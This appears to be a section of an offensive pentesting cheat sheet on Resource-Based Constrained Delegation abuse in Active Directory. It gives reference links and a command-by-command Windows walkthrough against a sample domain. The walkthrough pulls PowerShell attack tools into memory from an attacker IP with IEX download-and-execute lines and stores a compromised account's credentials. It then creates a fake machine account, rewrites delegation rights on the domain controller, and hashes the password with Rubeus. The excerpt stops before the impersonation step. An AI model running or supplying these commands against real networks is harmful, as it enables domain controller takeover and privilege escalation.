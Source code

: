
### Resource-Based Constrained Delegation (RBCD)

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
* [https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/](https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/)


#### RBCD from Windows

Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powerview4.ps1")
```

Check if `ms-DS-MachineAccountQuota` allows to create new machine accounts:

```
PS > $root = [ADSI]"LDAP://RootDSE"
PS > $root.rootDomainNamingContext
DC=megacorp,DC=local
PowerView3 > Get-DomainObject -Identity "DC=megacorp,DC=local" | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10
```

Define credentials for the compromised account with the necessary DACL:

```
PS > $userWithDaclUsername = 'megacorp.local\snovvcrash'
PS > $userWithDaclPassword = ConvertTo-SecureString 'Qwe123!@#' -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential($userWithDaclUsername, $userWithDaclPassword)
```

Add new machine account and configure RBCD on the vulnerable host (DC01):

```
PS > New-MachineAccount -MachineAccount fakemachine1337 -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PowerView3 > $computerSID = Get-DomainComputer -Identity fakemachine1337 -Properties ObjectSid -Verbose -Credential $cred | Select -Expand ObjectSid
PS > $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($computerSID))"
PS > $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS > $SD.GetBinaryForm($SDBytes, 0)
PowerView3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose -Credential $cred
PS > .\Rubeus.exe hash /domain:megacorp.local /user:fakemachine1337 /password:Passw0rd!
FC525C9683E8FE067095BA2DDC971889
```
